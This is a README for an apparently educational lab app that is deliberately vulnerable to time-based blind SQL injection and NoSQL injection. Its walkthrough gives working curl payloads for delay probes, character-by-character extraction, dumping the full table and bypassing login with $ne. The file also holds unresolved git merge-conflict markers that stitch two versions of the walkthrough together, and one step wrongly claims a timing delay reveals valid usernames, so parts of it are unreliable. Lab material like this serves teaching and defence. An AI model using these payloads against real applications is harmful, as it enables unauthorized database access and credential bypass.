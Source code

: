 # SQL and NoSQL Injection Labs

This repository contains a simple web application that demonstrates two common vulnerabilities:

- **Time-based blind SQL injection** using a vulnerable employee lookup page backed by SQLite.
- **NoSQL injection** via a login form that unsafely parses user supplied JSON.

The application is implemented in pure Python so it can run without extra dependencies.

## Usage

Start the server:

```bash
python3 app.py
```

Then open `http://localhost:8000` in your browser. You will see links to both labs.

These labs are intentionally vulnerable and should only be used in a controlled environment for educational purposes.

## Exploitation Walkthrough

<<<<<<< xgls4j-codex/create-time-based-sqli-and-no-sqli-labs
### SQL Injection (time‑based)
1. Open `http://localhost:8000/sql-lab` and look up ID `1`. The page only reports if a record exists.
2. Verify injection by causing a delay:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20OR%20sleep(3)=0"
   ```
   The request takes roughly three seconds longer, proving that the injected `sleep(3)` function executed.
3. Test whether another employee ID exists using a conditional delay:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20AND%20(SELECT%20CASE%20WHEN%20(SELECT%20count(*)%20FROM%20employees%20WHERE%20id=2)=1%20THEN%20sleep(3)%20ELSE%200%20END)"
   ```
   If ID 2 is present, the response is delayed.
4. Extract data character by character. For example, to check if the first letter of employee 1's name is `A`:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20AND%20(SELECT%20CASE%20WHEN%20substr(name,1,1)='A'%20THEN%20sleep(3)%20ELSE%200%20END%20FROM%20employees%20WHERE%20id=1)"
   ```
   Repeat this test for each position to reveal the name using timing differences.
5. Continue enumerating additional rows and columns in the same way to recover the full dataset.

### NoSQL Injection
1. Go to `http://localhost:8000/nosql-lab` and attempt to log in normally.
2. Bypass authentication by supplying JSON values:
   ```bash
   curl -X POST -d "username=%7B%22%24ne%22:null%7D&password=%7B%22%24ne%22:null%7D" http://localhost:8000/nosql-lab
   ```
   Any user record with non‑null fields will match.
3. Check if a specific user exists by using the `$eq` operator:
   ```bash
   curl -X POST -d "username=%7B%22%24eq%22:%22alice%22%7D&password=%7B%22%24ne%22:null%7D" http://localhost:8000/nosql-lab
   ```
   A delay in response indicates a valid username when combined with the `$ne` password condition.
4. Combine these techniques to log in as any known user once the username is discovered.

These demonstrations highlight how unsanitized input leads to unauthorized database access. Always run the labs in an isolated environment.
=======
### Discovering the SQL Injection
1. Browse to `http://localhost:8000/sql-lab` and submit an ID such as `1`.
2. To confirm the injection vulnerability, supply a payload that causes a delay:
   ```bash
   curl -w '%{time_total}\n' "http://localhost:8000/sql-lab?id=1%20OR%20sleep(3)=0"
   ```
   The response time increases by about three seconds, proving the query executed `sleep(3)`.

### Extracting Data via SQL Injection
Use a boolean condition to dump all employee records:
```bash
curl "http://localhost:8000/sql-lab?id=1%20OR%201=1"
```
The server returns a list of all employees from the SQLite database.

### Discovering the NoSQL Injection
1. Visit `http://localhost:8000/nosql-lab` and attempt a normal login.
2. Instead of regular credentials, send a JSON-based operator in the username and password fields:
   ```bash
   curl -X POST -d "username=%7B%22%24ne%22:null%7D&password=%7B%22%24ne%22:null%7D" http://localhost:8000/nosql-lab
   ```
   The application interprets the JSON and matches any user where the username and password are not null, bypassing authentication.

These demonstrations highlight how unsanitized input leads to full database access. Always run the labs in an isolated environment.
>>>>>>> main
